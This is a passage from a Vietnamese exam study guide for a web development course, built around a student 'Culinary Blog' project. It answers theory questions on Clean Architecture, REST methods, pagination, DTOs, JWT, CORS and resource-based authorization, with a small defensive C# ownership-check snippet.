

# BỘ ĐÁP ÁN & TÀI LIỆU ÔN TẬP THI CUỐI KỲ
## MÔN: PHÁT TRIỂN ỨNG DỤNG WEB NÂNG CAO
### DỰ ÁN: CULINARY BLOG — NỀN TẢNG CHIA SẺ CÔNG THỨC NẤU ĂN
**Đơn vị thực hiện:** Nhóm 13  
**Sinh viên đại diện / Báo cáo viên:** Nguyễn Thành Minh (MSSV: 2312691)  
**Kiến trúc hệ thống:** API-Driven Architecture (.NET 10 Minimal APIs + Clean Architecture + CQRS MediatR) & Frontend Next.js 15 (App Router, React 19, TypeScript)  
**Hạ tầng:** Docker Compose (PostgreSQL 16, Redis 7, MinIO S3 Object Storage, Hangfire, Serilog & Seq, MailHog)

---

# MỤC LỤC TỔNG HỢP

- [PHẦN I – LÝ THUYẾT (20 CÂU HỎI TRỌNG TÂM)](#phần-i--lý-thuyết-20-câu-hỏi-trọng-tâm)
  - [Câu 1: Monolithic Architecture — Ưu/Nhược điểm & Khi nào nên chọn?](#câu-1-monolithic-architecture--ưunhược-điểm--khi-nào-nên-chọn)
  - [Câu 2: Dependency Rule trong Clean Architecture & Vi phạm giữa Application và Infrastructure](#câu-2-dependency-rule-trong-clean-architecture--vi-phạm-giữa-application-và-infrastructure)
  - [Câu 3: RESTful API: Phân biệt PUT và PATCH — Ví dụ trong Culinary Blog](#câu-3-restful-api-phân-biệt-put-và-patch--ví-dụ-trong-culinary-blog)
  - [Câu 4: Cursor-based vs Offset-based Pagination — Lựa chọn trong Culinary Blog](#câu-4-cursor-based-vs-offset-based-pagination--lựa-chọn-trong-culinary-blog)
  - [Câu 5: Vai trò của DTO trong Clean Architecture & Hậu quả trả về Entity trực tiếp](#câu-5-vai-trò-của-dto-trong-clean-architecture--hậu-quả-trả-về-entity-trực-tiếp)
  - [Câu 6: Phân biệt Authentication và Authorization trong Culinary Blog](#câu-6-phân-biệt-authentication-và-authorization-trong-culinary-blog)
  - [Câu 7: Tại sao JWT là Stateless? Ưu/Nhược điểm so với Session-based](#câu-7-tại-sao-jwt-là-stateless-ưunhược-điểm-so-với-session-based)
  - [Câu 8: Tại sao CORS không phải là biện pháp bảo mật API? Cách bypass CORS](#câu-8-tại-sao-cors-không-phải-là-biện-pháp-bảo-mật-api-cách-bypass-cors)
  - [Câu 9: Resource-based Authorization — Ví dụ trong và ngoài Culinary Blog](#câu-9-resource-based-authorization--ví-dụ-trong-và-ngoài-culinary-blog)
  - [Câu 10: Repository Pattern trên EF Core — Testability & Dependency Inversion](#câu-10-repository-pattern-trên-ef-core--testability--dependency-inversion)
  - [Câu 11: Unit of Work Pattern — Vấn đề giải quyết & Use case trong Culinary Blog](#câu-11-unit-of-work-pattern--vấn-đề-giải-quyết--use-case-trong-culinary-blog)
  - [Câu 12: Cartesian Explosion khi Include Collection — Công thức tính số rows & AsSplitQuery()](#câu-12-cartesian-explosion-khi-include-collection--công-thức-tính-số-rows--assplitquery)
  - [Câu 13: React Server Components (RSC) vs Client Components ("use client")](#câu-13-react-server-components-rsc-vs-client-components-use-client)
  - [Câu 14: Bảo mật Session: HTTP-only Cookie vs localStorage & Tác động của XSS](#câu-14-bảo-mật-session-http-only-cookie-vs-localstorage--tác-động-của-xss)
  - [Câu 15: Phân loại State: Server, Client, URL, Form State & Công cụ phù hợp](#câu-15-phân-loại-state-server-client-url-form-state--công-cụ-phù-hợp)
  - [Câu 16: Next.js `<Image>`, prop `sizes`, Core Web Vitals & Next.js 16 fetchPriority](#câu-16-nextjs-image-prop-sizes-core-web-vitals--nextjs-16-fetchpriority)
  - [Câu 17: Phân biệt Logging, Metrics và Distributed Tracing khi debug Performance](#câu-17-phân-biệt-logging-metrics-và-distributed-tracing-khi-debug-performance)
  - [Câu 18: Tách biệt Liveness và Readiness Health Checks — Rủi ro khi Database chậm](#câu-18-tách-biệt-liveness-và-readiness-health-checks--rủi-ro-khi-database-chậm)
  - [Câu 19: So sánh IMemoryCache và IDistributedCache khi scale-out 3 instances](#câu-19-so-sánh-imemorycache-và-idistributedcache-khi-scale-out-3-instances)
  - [Câu 20: Full-Text Search PostgreSQL: Cấu hình "simple" vs "english" cho tiếng Việt](#câu-20-full-text-search-postgresql-cấu-hình-simple-vs-english-cho-tiếng-việt)
- [PHẦN II – BÁO CÁO VÀ GIẢI THÍCH MÃ NGUỒN](#phần-ii--báo-cáo-và-giải-thích-mã-nguồn)
  - [1. Báo cáo phân công công việc từng thành viên (Nhóm 13)](#1-báo-cáo-phân-công-công-việc-từng-thành-viên-nhóm-13)
  - [2. Danh mục các đoạn mã nguồn then chốt và thuyết minh kỹ thuật](#2-danh-mục-các-đoạn-mã-nguồn-then-chốt-và-thuyết-minh-kỹ-thuật)
  - [3. Trả lời câu hỏi thiết kế & cài đặt ứng dụng](#3-trả-lời-câu-hỏi-thiết-kế--cài-đặt-ứng-dụng)
    - [a. Số lượng module / tính năng của ứng dụng](#a-số-lượng-module--tính-năng-của-ứng-dụng)
    - [b. Các điểm mâu thuẫn phát hiện trong tài liệu SRS v1.0.0](#b-các-điểm-mâu-thuẫn-phát-hiện-trong-tài-liệu-srs-v100)
    - [c. Hướng giải quyết các mâu thuẫn & Lý do lựa chọn](#c-hướng-giải-quyết-các-mâu-thuẫn--lý-do-lựa-chọn)
    - [d. Những điểm/tính năng mới vượt trội so với đặc tả SRS ban đầu](#d-những-điểmtính-năng-mới-vượt-trội-so-với-đặc-tả-srs-ban-đầu)
    - [e. Đánh giá tính năng và khối lượng công việc hoàn thành](#e-đánh-giá-tính-năng-và-khối-lượng-công-việc-hoàn-thành)
- [PHẦN III – GIẢI QUYẾT VẤN ĐỀ (9 BÀI TOÁN TÍNH NĂNG MỞ RỘNG)](#phần-iii--giải-quyết-vấn-đề-9-bài-toán-tính-năng-mở-rộng)
  - [Bài toán 1: Đăng ký nhận thông báo qua Email khi có công thức mới](#bài-toán-1-đăng-ký-nhận-thông-báo-qua-email-khi-có-công-thức-mới)
  - [Bài toán 2: Chức năng đặt Banner quảng cáo có thu phí](#bài-toán-2-chức-năng-đặt-banner-quảng-cáo-có-thu-phí)
  - [Bài toán 3: Cung cấp tính năng RSS Feed chuẩn SEO cho Blog](#bài-toán-3-cung-cấp-tính-năng-rss-feed-chuẩn-seo-cho-blog)
  - [Bài toán 4: Chia sẻ bài viết lên Mạng xã hội (Facebook, X/Twitter, Zalo)](#bài-toán-4-chia-sẻ-bài-viết-lên-mạng-xã-hội-facebook-xtwitter-zalo)
  - [Bài toán 5: Cho phép người dùng đánh giá (1-5 sao) công thức món ăn](#bài-toán-5-cho-phép-người-dùng-đánh-giá-1-5-sao-công-thức-món-ăn)
  - [Bài toán 6: Module Bình luận đa cấp (Nested Comments) cho công thức](#bài-toán-6-module-bình-luận-đa-cấp-nested-comments-cho-công-thức)
  - [Bài toán 7: Trang Liên hệ (Contact Us) & Tiếp nhận phản hồi người dùng](#bài-toán-7-trang-liên-hệ-contact-us--tiếp-nhận-phản-hồi-người-dùng)
  - [Bài toán 8: Module Câu hỏi thường gặp (FAQ) tích hợp Schema FAQPage](#bài-toán-8-module-câu-hỏi-thường-gặp-faq-tích-hợp-schema-faqpage)
  - [Bài toán 9: Rủi ro bảo mật đối với Form nhập liệu & Giải pháp phòng vệ toàn diện](#bài-toán-9-rủi-ro-bảo-mật-đối-với-form-nhập-liệu--giải-pháp-phòng-vệ-toàn-diện)

---

# PHẦN I – LÝ THUYẾT (20 CÂU HỎI TRỌNG TÂM)

### Câu 1: Monolithic Architecture — Ưu/Nhược điểm & Khi nào nên chọn?

#### 1. Khái niệm cốt lõi
**Monolithic Architecture (Kiến trúc khối thống nhất)** là mô hình thiết kế phần mềm trong đó toàn bộ các thành phần nghiệp vụ (giao diện, logic nghiệp vụ, truy cập dữ liệu, phân quyền, tác vụ nền) được đóng gói, biên dịch và triển khai chung trong một đơn vị duy nhất (single deployable artifact).

#### 2. Phân tích Ưu và Nhược điểm
* **Ưu điểm:**
  - **Đơn giản trong phát triển ban đầu:** Dễ thiết lập môi trường, IDE chỉ cần mở một codebase, việc debug end-to-end rất thuận lợi qua breakpoints.
  - **Dễ triển khai (Deployment):** Chỉ cần một pipeline CI/CD duy nhất để build và đưa một gói ứng dụng lên máy chủ/container.
  - **Hiệu năng cao trong giao tiếp nội bộ (Low Latency):** Lời gọi hàm giữa các module là lời gọi in-process trong bộ nhớ (In-memory method calls), không tốn chi phí serialized/deserialized mạng (Network serialization overhead) như RPC hay HTTP trong Microservices.
  - **Tính toàn vẹn giao dịch (ACID Transactions):** Dễ dàng quản lý giao dịch CSDL cục bộ bằng `DbContextTransaction` hoặc `BEGIN...COMMIT`, không cần đến Distributed Transactions phức tạp (Saga Pattern, 2-Phase Commit).
  - **Dễ tái cấu trúc (Refactoring):** Dễ dàng di chuyển code, đổi tên phương thức trên toàn bộ hệ thống với sự hỗ trợ của trình biên dịch (compile-time checking).

* **Nhược điểm:**
  - **Rào cản mở rộng (Scaling limitation):** Không thể scale độc lập từng tính năng. Nếu một module tốn nhiều CPU/RAM (ví dụ tác vụ xử lý ảnh), toàn bộ khối Monolith buộc phải được nhân bản, gây lãng phí tài nguyên.
  - **Tính phụ thuộc cao (Tight Coupling & Blast Radius lớn):** Một lỗi rò rỉ bộ nhớ (Memory leak) hoặc exception không được xử lý ở một module phụ có thể đánh sập toàn bộ tiến trình ứng dụng.
  - **Khó khăn khi quy mô đội ngũ tăng (Team scalability):** Nhiều nhóm cùng commit vào một repository lớn dễ gây xung đột mã nguồn (merge conflicts), quy trình release bị nghẽn (Release bottleneck).
  - **Ràng buộc công nghệ (Tech stack lock-in):** Khó thử nghiệm công nghệ hoặc ngôn ngữ lập trình mới cho một phân hệ chuyên biệt.

#### 3. Trường hợp nào bạn vẫn nên chọn Monolithic cho một dự án mới?
Bạn **vẫn nên chọn Monolithic (đặc biệt là Modular Monolith)** khi:
1. **Dự án khởi đầu (Startup / MVP - Minimum Viable Product):** Khi phạm vi nghiệp vụ và thị trường chưa hoàn toàn ổn định; tốc độ ra mắt sản phẩm (Time-to-Market) là ưu tiên số một.
2. **Quy mô đội ngũ nhỏ (dưới 10 - 15 kỹ sư):** Khi chi phí vận hành (DevOps overhead) cho hạ tầng Microservices (Kubernetes, Service Mesh, API Gateway, Distributed Tracing) vượt quá nguồn lực của nhóm.
3. **Miền nghiệp vụ có tính liên kết chặt chẽ (High Domain Coupling):** Dữ liệu giữa các phân hệ liên quan mật thiết đến nhau và đòi hỏi giao dịch toàn vẹn ACID tức thời.
4. **Kiến trúc Modular Monolith kết hợp Clean Architecture:** Chia tách các module rõ ràng ngay từ đầu trong cùng một Solution (như dự án Culinary Blog hiện tại). Khi hệ thống đạt đến ngưỡng tải cần tách Microservice, việc bóc tách một module đã có ranh giới rõ ràng sẽ cực kỳ dễ dàng.

---

### Câu 2: Dependency Rule trong Clean Architecture & Vi phạm giữa Application và Infrastructure

#### 1. Dependency Rule trong Clean Architecture
**Quy tắc phụ thuộc (Dependency Rule)** của Uncle Bob quy định: *Mọi quan hệ phụ thuộc mã nguồn (source code dependencies) chỉ được phép trỏ vào phía trong — hướng về các tầng có mức độ trừu tượng cao hơn (Policies) và độc lập hoàn toàn với các cơ chế kỹ thuật bên ngoài (Mechanisms).*

Thứ tự các tầng từ trong ra ngoài:
$$\text{Domain (Lõi)} \longleftarrow \text{Application (Ca sử dụng)} \longleftarrow \text{Infrastructure (Hạ tầng)} \longleftarrow \text{Presentation / UI (Giao diện \& API)}$$

* **Domain (Core):** Chứa Entities, Value Objects, Domain Exceptions, Domain Interfaces. Không tham chiếu bất kỳ thư viện ngoài nào ngoại trừ .NET BCL.
* **Application:** Chứa Use Cases (Commands, Queries, DTOs, FluentValidators, Pipeline Behaviors). Chỉ phụ thuộc vào Domain.
* **Infrastructure:** Triển khai các chi tiết kỹ thuật: EF Core DbContext, Redis Cache, MinIO S3, Hangfire, MailKit, BCrypt/PBKDF2. Tầng này phụ thuộc vào Application và Domain.
* **Presentation:** Điểm vào hệ thống (Minimal APIs, Controllers, Middleware). Nơi lắp ráp Dependency Injection (Composition Root).

#### 2. Tại sao Application Layer không được import trực tiếp từ Infrastructure Layer?
1. **Nguyên tắc Đảo ngược Phụ thuộc (DIP - Dependency Inversion Principle):** Module cấp cao (Application - chứa logic nghiệp vụ) không được phụ thuộc vào module cấp thấp (Infrastructure - chi tiết công nghệ). Cả hai phải cùng phụ thuộc vào sự trừu tượng (Interfaces).
2. **Độc lập với Công nghệ (Framework/Database Independence):** Nghiệp vụ của Culinary Blog (tính điểm dinh dưỡng, điều kiện xuất bản công thức, quy trình đổi trạng thái) không được phép thay đổi khi hệ thống chuyển từ PostgreSQL sang MySQL, từ MinIO sang AWS S3, hay từ Redis sang Memcached.

#### 3. Điều gì xảy ra nếu vi phạm quy tắc này (Application tham chiếu trực tiếp Infrastructure)?
* **Tight Coupling (Gắn kết chặt):** Application sẽ phụ thuộc trực tiếp vào các class cụ thể như `CulinaryBlogDbContext`, `MinioClient`, `StackExchange.Redis`.
* **Mất khả năng Unit Test (Break Testability):** Không thể viết Unit Test độc lập cho Command Handler. Lập trình viên không thể mock được `IFileStorageService` hay `IRepository` vì code nghiệp vụ đã gọi trực tiếp các phương thức concrete của EF Core hoặc SDK bên ngoài, đòi hỏi phải có database thật và kết nối mạng để chạy test.
* **Tác động dây chuyền (Leaky Abstraction & Fragility):** Bất kỳ bản cập nhật nào của thư viện bên thứ ba (ví dụ EF Core breaking changes) sẽ làm vỡ thẳng vào tầng nghiệp vụ cốt lõi của công ty.

---

### Câu 3: RESTful API: Phân biệt PUT và PATCH — Ví dụ trong Culinary Blog

| Tiêu chí | `PUT` (Replace Resource) | `PATCH` (Partial Update) |
|---|---|---|
| **Mục đích** | Thay thế **toàn bộ** tài nguyên đích bằng payload gửi lên. | Cập nhật **một phần** các trường dữ liệu của tài nguyên. |
| **Tính Idempotent** | **Bắt buộc Idempotent:** Gọi 1 lần hay $N$ lần liên tiếp với cùng dữ liệu thì trạng thái tài nguyên trên server là như nhau. | **Không bắt buộc Idempotent** (tùy thuộc vào nội dung patch, ví dụ: phép cộng dồn lượt xem `viewCount += 1`). |
| **Xử lý các trường vắng mặt trong Payload** | Các trường không xuất hiện trong payload sẽ bị gán về **giá trị mặc định (default/null)** hoặc xóa bỏ. | Các trường không xuất hiện trong payload được **giữ nguyên giá trị hiện tại**. |
| **Payload Size** | Lớn (phải gửi lại toàn bộ cấu trúc của entity). | Nhỏ (chỉ gửi các trường thực sự thay đổi). |

#### Ví dụ cụ thể trong Culinary Blog:
* **Sử dụng `PUT` cho use case Cập nhật toàn bộ thông tin Công thức (`PUT /api/v1/recipes/{id}`):**
  Khi tác giả chỉnh sửa công thức ở form hoàn chỉnh: Tác giả gửi toàn bộ Tiêu đề, Mô tả, Hướng dẫn, Thời gian chuẩn bị, Thời gian nấu, Độ khó, Khẩu phần, cùng toàn bộ danh sách Nguyên liệu và Các bước. Hệ thống sẽ thay thế trạng thái cũ của công thức bằng trạng thái mới.
* **Sử dụng `PATCH` cho use case Cập nhật Hồ sơ cá nhân (`PATCH /api/v1/auth/me` - FR-AUTH-007):**
  Người dùng chỉ muốn cập nhật tiểu sử (`bio`) mà không đổi ảnh đại diện (`avatarUrl`) hay tên hiển thị (`displayName`).
  - Request body gửi lên:
    ```json
    {
      "bio": "Đầu bếp đam mê ẩm thực truyền thống miền Trung."
    }
    ```
  - Backend chỉ cập nhật duy nhất cột `Bio`, các cột `DisplayName`, `AvatarUrl`, `Email` hoàn toàn được giữ nguyên vẹn.
* **Sử dụng `PATCH` cho use case Lưu trữ công thức (`PATCH /api/v1/recipes/{id}/archive` - FR-RCP-006):**
  Chỉ cập nhật trường `Status = 'Archived'` và `UpdatedAt = DateTime.UtcNow` mà không yêu cầu client gửi lại toàn bộ công thức.

---

### Câu 4: Cursor-based vs Offset-based Pagination — Lựa chọn trong Culinary Blog

#### 1. Phân tích so sánh hai kỹ thuật

| Tiêu chí | Offset-based Pagination (`OFFSET ... LIMIT ...`) | Cursor-based Pagination (Keyset Pagination) |
|---|---|---|
| **Cơ chế hoạt động** | Sử dụng vị trí tương đối: `Skip((page - 1) * pageSize).Take(pageSize)`. DB phải quét qua toàn bộ các hàng trước đó rồi mới lấy trang hiện tại. | Sử dụng con trỏ định danh duy nhất có thứ tự: `WHERE (CreatedAt, Id) < (@LastCreatedAt, @LastId) ORDER BY CreatedAt DESC LIMIT @PageSize`. |
| **Hiệu năng ($O$)** | $O(N)$ — Càng về trang sau, câu lệnh càng chậm do DB phải scan và bỏ qua $N$ bản ghi đầu (Page 10,000 tốn tài nguyên khổng lồ). | $O(1)$ — Nhờ tận dụng Index B-Tree, DB nhảy trực tiếp đến vị trí con trỏ trong vài phần nghìn giây bất kể độ sâu dữ liệu. |
| **Xử lý dữ liệu động** | **Dễ bị lỗi:** Nếu có bài viết mới được thêm ở trang 1 trong lúc người dùng đang duyệt, sang trang 2 họ sẽ bị trùng lặp bài viết (Duplicate items) hoặc nhảy cóc bài viết (Skipped items). | **Ổn định tuyệt đối:** Dữ liệu mới thêm vào đầu danh sách không ảnh hưởng đến con trỏ đang trỏ về quá khứ. |
| **Nhảy trang tùy ý** | **Hỗ trợ rất tốt:** Cho phép nhảy trực tiếp đến Trang 1, Trang 5, Trang 50. | **Không hỗ trợ nhảy cóc:** Chỉ hỗ trợ duyệt tuần tự `Next` và `Previous`. |

#### 2. Ứng dụng Culinary Blog đã sử dụng kỹ thuật nào? Giải thích lý do
Ứng dụng Culinary Blog triển khai **Offset-based Pagination kết hợp Index tối ưu** cho danh sách công thức (`GET /api/v1/recipes?page=1&pageSize=12`):
* **Lý do lựa chọn:**
  1. **Trải nghiệm người dùng (UX Blog Ẩm thực):** Độc giả cần thanh điều hướng trang rõ ràng (`Trang 1, 2, 3... 10`) để biết tổng số trang và có thể nhảy đến bất kỳ trang nào họ muốn tìm kiếm.
  2. **Yêu cầu tương thích SEO & Google Bot:** Các công cụ tìm kiếm (Google Bot) yêu cầu URL phân trang rõ ràng và có thể dự đoán được (`/recipes?page=2`) để lập chỉ mục toàn bộ website. Cursor-based (dùng token mã hóa base64 phức tạp) rất khó tối ưu cho crawler.
  3. **Quy mô dữ liệu Blog:** Với quy mô blog ẩm thực dự kiến vài chục nghìn bài viết được lọc theo `IsDeleted = false` và `Status = Published`, kết hợp cùng Index trên `(PublishedAt DESC, Id)`, hiệu năng Offset-based trong phạm vi 100 trang đầu tiên hoàn toàn đáp ứng dưới $50\text{ms}$.

---

### Câu 5: Vai trò của DTO trong Clean Architecture & Hậu quả trả về Entity trực tiếp

#### 1. Tại sao DTO (Data Transfer Object) quan trọng trong Clean Architecture?
* **Đóng gói dữ liệu truyền tải:** DTO định nghĩa chính xác hợp đồng giao tiếp (API Contract) giữa Client và Server, tách rời cấu trúc lưu trữ của cơ sở dữ liệu khỏi dữ liệu mà người dùng nhận được.
* **Bảo vệ tính toàn vẹn của Domain:** Giúp Domain Entity duy trì tính đóng gói (Encapsulation), không bị ép buộc phải gắn các annotation JSON (`[JsonPropertyName]`, `[JsonIgnore]`) làm ô nhiễm tầng Domain.
* **Tối ưu hóa băng thông mạng (Payload Optimization):** DTO cho phép gộp (Flatten) dữ liệu từ nhiều bảng hoặc loại bỏ các trường không cần thiết, giúp payload JSON trả về nhẹ và đúng mục đích hiển thị.

#### 2. Điều gì xảy ra nếu bạn trả về Entity trực tiếp từ API endpoint?
1. **Lỗ hổng Lộ thông tin nhạy cảm (Over-posting & Data Exposure):** Entity `ApplicationUser` chứa `PasswordHash`, `SecurityStamp`, `ConcurrencyStamp`, `PhoneNumber`. Nếu trả về Entity trực tiếp, toàn bộ thông tin nhạy cảm này sẽ bị phơi bày trên mạng cho hacker.
2. **Lỗi Vòng lặp tuần hoàn (Circular Reference / Infinite JSON Loop):** Khi Entity có quan hệ 2 chiều (ví dụ: `Recipe` chứa danh sách `RecipeIngredients`, và mỗi `RecipeIngredient` lại tham chiếu ngược về `Recipe`), trình tuần hoàn JSON (`System.Text.Json` hoặc `Newtonsoft.Json`) sẽ gặp lỗi `JsonException: A possible object cycle was detected`, làm crash request và trả về lỗi 500.
3. **Phá vỡ tính tương thích ngược (Breaking API Contracts):** Mỗi khi lập trình viên thêm hoặc đổi tên một cột trong CSDL, giao diện API bị đổi theo, làm sập toàn bộ ứng dụng Mobile hoặc Frontend đang chạy.
4. **Vấn đề bảo mật Mass Assignment (Over-posting Attack):** Khi dùng Entity làm đầu vào cho endpoint tạo/sửa, kẻ tấn công có thể đính kèm các trường nguy hiểm như `"IsAdmin": true` hoặc `"IsDeleted": true`, khiến server tự động ánh xạ và cập nhật quyền quản trị trái phép.

---

### Câu 6: Phân biệt Authentication và Authorization trong Culinary Blog

| Tiêu chí | Authentication (Xác thực) | Authorization (Phân quyền) |
|---|---|---|
| **Bản chất câu hỏi** | **"Bạn là ai?"** (Who are you?) | **"Bạn có quyền làm gì?"** (What permissions do you have?) |
| **Thời điểm diễn ra** | Luôn diễn ra **trước** (First step). | Luôn diễn ra **sau** khi đã xác thực danh tính. |
| **Cơ chế triển khai** | Kiểm tra thông tin đăng nhập (Email/Password qua PBKDF2, Google ID Token, JWT Bearer Token signature). | Kiểm tra Roles, Claims, Policies, hoặc quyền sở hữu tài nguyên (Resource Ownership). |
| **Mã lỗi HTTP khi thất bại** | **`401 Unauthorized`** (Thiếu hoặc sai thông tin xác thực). | **`403 Forbidden`** (Đã biết danh tính nhưng không đủ thẩm quyền truy cập). |

#### Ví dụ cụ thể trong Culinary Blog:
* **Hành động CHỈ CẦN Authentication:**
  - `GET /api/v1/auth/me` (Xem hồ sơ cá nhân): Bất kỳ ai đăng nhập thành công với một Bearer Token hợp lệ (dù là vai trò Reader, Author hay Admin) đều có quyền gọi endpoint này để lấy thông tin của chính mình.
  - `POST /api/v1/auth/logout` (Đăng xuất): Chỉ cần là phiên làm việc của người dùng hiện tại để thu hồi refresh token cookie.
* **Hành động CẦN CẢ Authentication và Authorization:**
  - `POST /api/v1/categories` (Tạo danh mục mới - FR-CAT-003):
    1. *Authentication:* Xác minh token JWT hợp lệ để biết ai đang gọi API.
    2. *Authorization:* Kiểm tra `User.IsInRole("Admin")`. Nếu người dùng đăng nhập là `Author` hoặc `Reader`, hệ thống lập tức từ chối với mã **`403 Forbidden`**.
  - `PUT /api/v1/recipes/{id}` (Sửa bài viết - FR-RCP-004):
    1. *Authentication:* Kiểm tra token hợp lệ để lấy `currentUserId`.
    2. *Authorization:* Phải có quyền `Author` VÀ bài viết đó phải do chính tác giả đó tạo (`recipe.AuthorId == currentUserId`) hoặc người gọi là `Admin`.

---

### Câu 7: Tại sao JWT là Stateless? Ưu và nhược điểm của Stateless Authentication so với Session-based

#### 1. Tại sao JWT là Stateless?
**JSON Web Token (JWT)** là cơ chế xác thực **Stateless (phi trạng thái)** vì:
* Mọi thông tin cần thiết để xác định danh tính người dùng (User ID, Email, Roles, Expiration Time) đều được mã hóa và đóng gói trực tiếp bên trong phần Payload (Claims) của token.
* Tính toàn vẹn của token được bảo đảm bằng chữ ký mật mã (Cryptographic Signature) nằm ở phần cuối của token (`HMAC-SHA256` hoặc `RSA-256`) bằng khóa bí mật (`SecretKey`).
* Khi nhận được request, Server **không cần truy vấn Database hay Redis** để kiểm tra session tồn tại hay không. Server chỉ cần tính toán lại chữ ký toán học dựa trên `SecretKey`. Nếu chữ ký hợp lệ và token chưa hết hạn (`exp > now`), Server xem như người dùng đã được xác thực thành công.

#### 2. So sánh Ưu và Nhược điểm: Stateless JWT vs Session-based

| Tiêu chí | Stateless JWT Authentication | Session-based Authentication truyền thống |
|---|---|---|
| **Lưu trữ phía Server** | **Không lưu gì trên Server:** RAM/DB hoàn toàn giải phóng. | **Lưu Session Store:** Cần lưu bảng `Sessions` trong DB hoặc Redis (tốn RAM khi hàng triệu users). |
| **Khả năng mở rộng (Scalability)** | **Cực kỳ xuất sắc:** Dễ dàng mở rộng hàng trăm instance backend phía sau Load Balancer mà không cần Session Sharing hay Sticky Sessions. | Phức tạp hơn: Cần cấu hình Redis Session Clustering hoặc Sticky Sessions trên Load Balancer. |
| **Kiến trúc phân tán & Microservices** | Rất phù hợp: Token có thể chuyển giao giữa các microservices độc lập mà không cần chung DB. | Khó khăn khi chuyển giao qua các domain khác nhau hoặc hệ thống bên ngoài. |
| **Kích thước gói tin (Payload overhead)** | Token lớn (chứa base64 claims), gửi kèm mọi request làm tăng băng thông HTTP. | Cookie Session ID rất nhỏ (chỉ là chuỗi UUID 32 ký tự). |
| **Khả năng thu hồi (Token Revocation)** | **Rất khó thu hồi tức thì:** Nếu token có hạn 15 phút, khi user bị khóa tài khoản hoặc đổi mật khẩu, token đó vẫn có hiệu lực cho đến khi hết hạn. | **Thu hồi tức thì (Instant Kill):** Chỉ cần xóa bản ghi trong Session Store là user bị đá ra ngay lập tức. |

*Giải pháp chuẩn hóa của Culinary Blog:* Kết hợp ưu điểm cả hai: **Access Token (JWT) ngắn hạn (15 phút) lưu in-memory** + **Refresh Token lưu trong Database có cờ RevokedAt và truyền qua HttpOnly Cookie** (giúp kiểm soát thu hồi tức thời khi cần).

---

### Câu 8: Tại sao CORS không phải là biện pháp bảo mật API? Kẻ tấn công có thể bypass CORS không?

#### 1. Bản chất của CORS (Cross-Origin Resource Sharing)
* **CORS là cơ chế an ninh PHÍA TRÌNH DUYỆT (Browser-enforced security mechanism), KHÔNG PHẢI cơ chế bảo mật phía Server.**
* Mục đích thực sự của CORS là **bảo vệ người dùng duyệt web (Client)** khỏi việc các trang web độc hại thực hiện các hành động trái phép trên một website khác mà người dùng đã đăng nhập (phối hợp chống biến thể CSRF).
* Trình duyệt sẽ gửi một request kiểm tra trước (`OPTIONS preflight request`) hỏi server: *"Tôi ở origin `http://evil.com` có được phép đọc dữ liệu của bạn không?"*. Nếu server trả về headers không chứa origin đó trong `Access-Control-Allow-Origin`, **chính trình duyệt sẽ chặn không cho mã JavaScript đọc dữ liệu trả về**. Bản thân request đến server có thể **vẫn đã được xử lý xong**!

#### 2. Kẻ tấn công có thể Bypass CORS không? Trong trường hợp nào?
**CÓ, KẺ TẤN CÔNG HOÀN TOÀN CÓ THỂ BYPASS CORS DỄ DÀNG.**

CORS chỉ tồn tại trên môi trường Web Browser tuân thủ chuẩn W3C. CORS **hoàn toàn vô hiệu** trong các trường hợp sau:
1. **Sử dụng các công cụ HTTP Client không phải trình duyệt:** Các công cụ như `cURL`, `Postman`, `Python requests`, `Node.js fetch/axios`, hoặc ứng dụng Desktop/Mobile hoàn toàn bỏ qua chính sách CORS và gửi trực tiếp request tới API.
2. **Sử dụng Server-side Proxy / Reverse Proxy:** Kẻ tấn công tạo một server trung gian (ví dụ Node.js express proxy). Client gửi request đến proxy (cùng origin), proxy gửi request đến API backend (Server-to-Server không bị kiểm tra CORS).
3. **Cấu hình sai phía Server (`AllowAnyOrigin` kèm Credentials):** Cấu hình `AllowAnyOrigin()` hoặc regex lỏng lẻo cho phép mọi domain độc hại truy cập tài nguyên.

> ⚠️ **Kết luận kiến trúc:** Để bảo vệ API thật sự, bắt buộc phải sử dụng **Authentication (JWT), Authorization, Rate Limiting, Input Validation, và CSRF Protection**, tuyệt đối không bao giờ dựa vào CORS làm chốt chặn an ninh API.

---

### Câu 9: Resource-based Authorization — Ví dụ trong và ngoài Culinary Blog

#### 1. Resource-based Authorization là gì?
**Resource-based Authorization (Phân quyền dựa trên tài nguyên)** là cơ chế kiểm tra quyền truy cập không chỉ dựa trên thông tin định danh của người dùng (như Role hay Claim đơn thuần) mà phụ thuộc trực tiếp vào **trạng thái, thuộc tính và quyền sở hữu cụ thể của chính tài nguyên** đang được truy cập tại thời điểm thực thi.

*So sánh với Role-based:*
- Role-based: *"User này có vai trò Author không?"* (Nếu có -> Cho phép sửa). ❌ *Lỗ hổng: Author A có thể sửa bài của Author B.*
- Resource-based: *"User này có phải là Tác giả của BÀI VIẾT CỤ THỂ NÀY hoặc là Admin không?"* ✅

#### 2. Ví dụ trong ứng dụng Culinary Blog
* **Quyền Chỉnh sửa và Xóa công thức (`PUT/DELETE /api/v1/recipes/{id}`):**
  - Khi Author gửi yêu cầu sửa công thức:
    ```csharp
    var recipe = await _recipeRepository.GetByIdAsync(request.Id);
    if (recipe == null) throw new NotFoundException();

    // Resource-based check:
    var isOwner = recipe.AuthorId == currentUserId;
    var isAdmin = currentUserRoles.Contains("Admin");

    if (!isOwner && !isAdmin)
    {
        throw new ForbiddenException("Bạn không có quyền chỉnh sửa công thức của tác giả khác.");
    }
    ```
  - Cùng là Author, nhưng Author A được sửa bài viết của Author A, và bị từ chối `403 Forbidden` khi cố tình sửa bài viết của Author B.

#### 3. Ví dụ ngoài ứng dụng Culinary Blog
* **Hệ sinh thái Google Docs / Google Drive:**
  Một người dùng có tài khoản Google hợp lệ. Nhưng khi mở một tệp Google Doc cụ thể:
  - Nếu file được cấp quyền `Viewer` -> Chỉ đọc.
  - Nếu file được cấp quyền `Editor` -> Được sửa.
